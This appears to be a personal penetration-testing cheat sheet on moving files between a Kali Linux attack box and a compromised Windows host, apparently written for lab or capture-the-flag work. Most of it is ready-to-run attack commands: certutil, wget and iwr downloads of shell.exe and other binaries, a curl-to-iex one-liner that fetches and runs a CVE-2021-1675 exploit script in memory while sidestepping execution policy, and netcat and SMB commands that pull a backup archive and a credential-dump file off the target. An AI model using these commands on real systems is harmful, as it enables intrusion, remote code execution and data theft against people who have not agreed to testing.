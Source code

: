 #### from windows back to my kali linux
on kali run
```
smbserver.py smb share/ -smb2support
```
on windows, run:
```
net use \\10.21.90.250\smb
```
then copy the file
```
copy .\mimi_allyouneed101.txt \\192.168.49.109\smb\mimi_allyouneed101.txt
```
#### If SMB share has read,write can use both directions

---
## From kali to windows
#### wget
```
wget http://10.10.14.169/shell.exe -o s.exe
```
#### iwr
```
iwr -uri http://10.10.14.169/shell.exe -o s.exe
```

#### certutil
```
certutil -split -urlcache -f http://192.168.49.109/chkaccess.exe C:\\Users\\rudi.davis\\Desktop\\chkaccess.exe
```

if wget doesn't work because IE engine isn't availablem, use `curl` with parameter:
```
curl 10.10.14.6/CVE-2021-1675.ps1 -UseBasicParsing | iex
```
- `-UseBasicParsing` allows the file to come back without IE
- `iex` imports (or runs) the script 
	- useful if can't import/run a script when transferred via other means because of execution policy and `powershell -ep bypass` doesn't work

---

### NC from remote to host
```
nc -lnvp 443 > 16162020_backup.zip
```
- run on kali
```
md5sum 16162020_backup.zip
```
- checksum on remote machine before transferring
```
cat 16162020_backup.zip | nc 10.10.14.191 443
```
- on remote machine to initiate the transfer
```
md5sum 16162020_backup.zip
```
- checksum on kali to make sure matches